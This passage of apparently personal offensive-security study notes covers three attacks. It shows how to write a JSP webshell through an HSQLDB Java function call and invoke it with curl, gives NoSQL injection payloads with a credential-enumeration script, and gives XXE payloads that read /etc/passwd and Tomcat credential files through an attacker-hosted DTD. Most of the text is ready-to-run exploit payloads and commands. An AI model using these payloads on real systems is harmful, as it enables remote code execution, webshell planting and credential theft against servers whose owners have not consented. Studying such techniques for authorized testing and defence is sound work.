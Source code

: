                     'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
                    Convert payloads to ascii hex, then call:
                        call writeBytesToFilename('test.txt', cast ('497420776f726b656421' AS VARBINARY(1024)))
                    RCE Options:
                        write JSP webshell and access in browser
                    Write Webshell (/usr/share/webshells/jsp/cmdjsp.jsp):
                        convert to Linux; make smaller by removing html; encode to hex
                        call writeBytesToFilename('../../apache-tomee-plus-7.0.5/apps/abc/shell.jsp', cast('ABC...' as VARBINARY(1024)))
                        ACCESS:  curl http://abc:8080/abc/shell.jsp?cmd=hostname

## NOSQL Injection:  

	in burp, try: username[$ne]=..., password[$ne]=...
	https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
	If injection succeeds, enumerate accounts with: https://raw.githubusercontent.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/master/nosqli-user-pass-enum.py
	python3 mangoenum.py -u http://staging-order.mango.htb/ -up username -pp password -op login:login -ep username
		then: python3 mangoenum.py -u http://staging-order.mango.htb/ -up username -pp password -op login:login -ep password

## XML External Entity (XXE):  

	If there's an XML parser without proper input validation (API, etc.)
	Used for: enumeration; finding creds (Java)
		Some languages like PHP can lead to RCE
	Internal Entities:  <!ENTITY name "entity_value">, ex. <!ENTITY test "<entity-value>test value</entity-value>">
        External Entities:  
            Private:  <!ENTITY name SYSTEM "URI">, ex. <!ENTITY offsecinfo SYSTEM "http://www.offsec.com/company.xml">
            Public:  <!ENTITY name PUBLIC "public_id" "URI">, ex. <!ENTITY offsecinfo PUBLIC "-//W3C//TEXT companyinfo//EN" "http://www.offsec.com/companyinfo.xml">
        Parameter Entities:  <!ENTITY % name SYSTEM "URI">, ex. <!ENTITY % course 'AWAE'> then <!ENTITY Title 'Offensive Security presents %course;' >
        Prevent Payload Parsing:
            Private:  <!ENTITY name SYSTEM "URI" NDATA TYPE>
            Public:  <!ENTITY name PUBLIC "public_id" "URI" NDATA TYPE>
	XXE Example:
            <?xml version="1.0"?>
            <!DOCTYPE data [
            <!ELEMENT data ANY >
            <!ENTITY lastname SYSTEM "file:///etc/passwd">
            ]>
            <org.opencrx.kernel.account1.Contact>
             <lastName>&lastname;</lastName>
             <firstName>Tom</firstName>
            </org.opencrx.kernel.account1.Contact>
            If the lastName contents are included in a server response or we can retrieve its output, we can read files on the server.
	Output Formatting with CDATA:
            Host wrapper on attack box as wrapper.dtd:  <!ENTITY wrapper "%start;%file;%end;">
            <?xml version="1.0"?>
            <!DOCTYPE data [
            <!ENTITY % start "<![CDATA[">
            <!ENTITY % file SYSTEM "file:///home/student/crx/apache-tomee-plus-7.0.5/conf/tomcat-users.xml" >
            <!ENTITY % end "]]>">
            <!ENTITY % dtd SYSTEM "http://192.168.1.1/wrapper.dtd" >
            %dtd;
            ]>
            <org.opencrx.kernel.account1.Contact>
             <lastName>&wrapper;</lastName>